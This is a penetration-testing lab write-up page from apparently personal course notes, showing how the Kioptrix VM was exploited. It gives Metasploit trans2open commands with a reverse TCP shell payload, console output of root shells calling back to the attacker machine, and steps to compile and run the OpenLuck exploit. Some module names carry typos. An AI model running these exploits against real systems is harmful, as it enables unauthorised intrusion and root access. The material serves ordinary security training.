 ```yaml
---
layout: default
title: Exploit
parent: Kioptrix
grand_parent: TCM-Sec - PEH
permalink: /tcm-sec-PEH/kioptrix/exploit
nav_order: 5
---
```


# Exploit <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## metasploit

- `search trans2opnen`
- `use xploit/linux/samba/trans2open`
- `set rhosts`
- `exploit`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 1 closed.  Reason: Died
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 4 closed.  Reason: Died
[-] Meterpreter session 4 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
^C[-] 10.0.2.4:139 - Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
```

- `set payload linux/x86/shell_reverse_tcp`
- `run`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (10.0.2.15:4444 -> 10.0.2.4:32868) at 2022-12-14 00:21:32 +0100

[*] Command shell session 6 opened (10.0.2.15:4444 -> 10.0.2.4:32869) at 2022-12-14 00:21:33 +0100
[*] Command shell session 7 opened (10.0.2.15:4444 -> 10.0.2.4:32870) at 2022-12-14 00:21:35 +0100
[*] Command shell session 8 opened (10.0.2.15:4444 -> 10.0.2.4:32871) at 2022-12-14 00:21:36 +0100

id
uid=0(root) gid=0(root) groups=99(nobody)
```

> WE GOT ROOT

## Manually (kind of)

- download exploit from github ([OpenLuck](https://github.com/heltonWernik/OpenLuck))
- install libssl-dev
- compile 'opelLuck.c'
- execute

![Alt text](../../assets/TCM-Sec/Kioptrix/openLuck.png)

> WE GOT apache ?!?!?

---
